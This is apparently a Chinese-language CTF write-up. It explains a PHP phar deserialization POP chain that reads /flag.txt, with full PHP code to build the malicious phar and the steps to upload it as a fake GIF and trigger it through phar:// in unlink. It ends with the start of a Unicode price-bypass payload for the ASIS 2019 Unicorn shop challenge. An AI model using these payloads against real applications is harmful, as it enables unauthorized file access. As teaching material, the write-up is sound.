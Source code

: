 可以看到我们不能通过任意文件下载去下载 flag 文件。而在删除时，关键在于调用了 `detele` 函数，这会触发 `unlink`。`unlink` 在用 `phar://` 伪协议解析文件时会进行反序列化，结合刚才的魔术方法 `__call`，我们容易想到利用 phar 反序列化来读 flag。

我们已经有 `FileList->__destruct` 方法打印 `__call` 的结果。接下来，读 flag 显然只能用 `File` 的 `close` 方法，为了调用这个方法，我们需要构造形如 `FileList->__call("close")` 的调用。

搜索字符串 `close`，可以发现代码中还有一处 `close` 调用，位于 `User->__destruct` 中，本来是用于关闭数据库连接，但我们可以设置 `db` 为 `FileList` 对象从而达到目的。最后设置 `File` 对象的 `filename` 为 `/flag.txt`。

由于我们使用了 `unlink`，所以会自动调用 `User->__destruct`，至此 pop 链构造完成。

```php
<?php

class User
{
    public $db;
}
class FileList
{
    private $files;
    public function __construct() {
        $this->files = array(new File());
    }
}
class File
{
    public $filename = "/flag.txt";
}

$fl = new FileList();
$u = new User();
$u->db = $fl;

$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->addFromString("1.txt", "text");
$phar->setMetadata($u);
$phar->stopBuffering();

?>
```

然后将 `php.ini` 中的 `phar.readonly` 设为 `Off`，运行得到 `1.phar`，上传并抓包，更改文件名为 `1.gif`，更改 `Content-Type` 为 `image/gif` 即可成功上传。最后删除，更改文件名为 `phar://1.gif`，触发 `unlink` 读取 flag。

## [ASIS 2019]Unicorn shop

本题需要花费 1337 购买超级独角兽，但输入的价格只能是一个字符。查看源代码发现提示和 UTF8 相关，因此去查询 Unicode 中数值大于 1337 的字符的 UTF8 编码，举个例子：

```
id=4&price=%e1%8d%bc
```
